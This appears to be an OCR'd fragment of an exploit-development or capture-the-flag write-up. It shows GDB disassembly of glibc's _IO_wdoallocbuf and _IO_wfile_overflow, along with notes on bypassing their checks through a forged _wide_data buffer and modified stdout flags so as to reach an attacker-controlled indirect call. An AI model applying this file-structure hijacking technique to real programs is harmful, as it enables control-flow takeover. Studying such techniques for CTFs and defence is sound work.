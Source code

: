 ```asm
   0x0000714d1a68ae80 <+32>:    push   rbx                                                                                                                                              
   0x0000714d1a68ae81 <+33>:    mov    rbx,rdi                                                                                                                                          
   0x0000714d1a68ae84 <+36>:    sub    rsp,0x8
   0x0000714d1a68ae88 <+40>:    test   BYTE PTR [rdi],0x2
   0x0000714d1a68ae8b <+43>:    jne    0x714d1a68aef8 <__GI__IO_wdoallocbuf+152>
   0x0000714d1a68ae8d <+45>:    mov    rax,QWORD PTR [rax+0xe0]
   0x0000714d1a68ae94 <+52>:    call   QWORD PTR [rax+0x68]
```

looks like it is moving `_wide_data` pointer to rax again (which is our buffer). our goal is to reach the call at _GI__IO_wdoallocbuf+52 so we need to bypass the checks at __GI__IO_wdoallocbuf+11 and __GI__IO_wdoallocbuf+40

> 0x0000714d1a68ae6b <+11>:    cmp    QWORD PTR [rax+0x30],0x0   
just make` buffer+0x30` is equal to `0x00`, noted.

> ```asm
> 0x0000714d1a68ae88 <+40>:    test   BYTE PTR [rdi],0x2
> 0x0000714d1a68ae8b <+43>:    jne    0x714d1a68aef8 <__GI__IO_wdoallocbuf+152>
> ```

and for this check, rdi is pointing to stdout's magic bytes (0xfbad2a84). can try to change it to 0x2

```asm
Dump of assembler code for function __GI__IO_wfile_overflow:                                                                                                                            
   0x000079da8628ce10 <+0>:     endbr64                                                                                                                                                 
   0x000079da8628ce14 <+4>:     push   rbp                                                                                                                                              
   0x000079da8628ce15 <+5>:     mov    rbp,rsp                                                                                                                                          
   0x000079da8628ce18 <+8>:     push   r12                                                                                                                                              
   0x000079da8628ce1a <+10>:    push   rbx                                                                                                                                              
   0x000079da8628ce1b <+11>:    mov    edx,DWORD PTR [rdi]                                                                                                                              
   0x000079da8628ce1d <+13>:    mov    rbx,rdi                                                                                                                                          
=> 0x000079da8628ce20 <+16>:    test   dl,0x8                                                                                                                                           
   0x000079da8628ce23 <+19>:    jne    0x79da8628cf70 <__GI__IO_wfile_overflow+352>                                                                                                     
   0x000079da8628ce29 <+25>:    mov    rax,QWORD PTR [rdi+0xa0]                                                                                                                         
   0x000079da8628ce30 <+32>:    mov    r12d,esi                                                                                                                                         
   0x000079da8628ce33 <+35>:    mov    rsi,QWORD PTR [rax+0x18]                                                                                                                         
   0x000079da8628ce37 <+39>:    test   dh,0x8                                                                                                                                           
   0x000079da8628ce3a <+42>:    jne    0x79da8628cee0 <__GI__IO_wfile_overflow+208>                                                                                                     
   0x000079da8628ce40 <+48>:    test   rsi,rsi                                                                                                                                          
   0x000079da8628ce43 <+51>:    je     0x79da8628cee5 <__GI__IO_wfile_overflow+213> 
```
